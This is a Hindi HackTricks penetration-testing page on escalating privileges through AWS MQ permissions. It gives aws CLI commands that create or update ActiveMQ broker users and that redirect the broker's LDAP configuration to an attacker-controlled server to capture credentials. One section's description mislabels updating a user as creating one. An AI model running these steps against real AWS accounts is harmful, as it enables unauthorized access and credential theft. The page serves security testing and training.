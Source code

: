 # AWS - MQ Privesc

{{#include ../../../banners/hacktricks-training.md}}

## MQ

MQ के बारे में अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-mq-enum.md
{{#endref}}

### `mq:ListBrokers`, `mq:CreateUser`

इन अनुमतियों के साथ आप **एक ActimeMQ ब्रोकर में एक नया उपयोगकर्ता बना सकते हैं** (यह RabbitMQ में काम नहीं करता):
```bash
aws mq list-brokers
aws mq create-user --broker-id <value> --console-access --password <value> --username <value>
```
**संभावित प्रभाव:** ActiveMQ के माध्यम से संवेदनशील जानकारी तक पहुँच

### `mq:ListBrokers`, `mq:ListUsers`, `mq:UpdateUser`

इन अनुमतियों के साथ आप **एक नए उपयोगकर्ता को ActimeMQ ब्रोकर में बना सकते हैं** (यह RabbitMQ में काम नहीं करता):
```bash
aws mq list-brokers
aws mq list-users --broker-id <value>
aws mq update-user --broker-id <value> --console-access --password <value> --username <value>
```
**संभावित प्रभाव:** ActiveMQ के माध्यम से संवेदनशील जानकारी तक पहुँच

### `mq:ListBrokers`, `mq:UpdateBroker`

यदि एक ब्रोकर **ActiveMQ** के साथ प्राधिकरण के लिए **LDAP** का उपयोग कर रहा है। तो यह संभव है कि **हमलावर द्वारा नियंत्रित** **LDAP सर्वर** की **कॉन्फ़िगरेशन** को **बदल** दिया जाए। इस तरह हमलावर **LDAP के माध्यम से भेजे जा रहे सभी क्रेडेंशियल्स को चुरा** सकेगा।
```bash
aws mq list-brokers
aws mq update-broker --broker-id <value> --ldap-server-metadata=...
```
यदि आप किसी तरह ActiveMQ द्वारा उपयोग किए गए मूल क्रेडेंशियल्स को खोज सकते हैं, तो आप एक MitM कर सकते हैं, क्रेडेंशियल्स चुरा सकते हैं, उन्हें मूल सर्वर में उपयोग कर सकते हैं, और प्रतिक्रिया भेज सकते हैं (शायद केवल चुराए गए क्रेडेंशियल्स का पुन: उपयोग करके आप यह कर सकते हैं)।

**संभावित प्रभाव:** ActiveMQ क्रेडेंशियल्स चुराना

{{#include ../../../banners/hacktricks-training.md}}
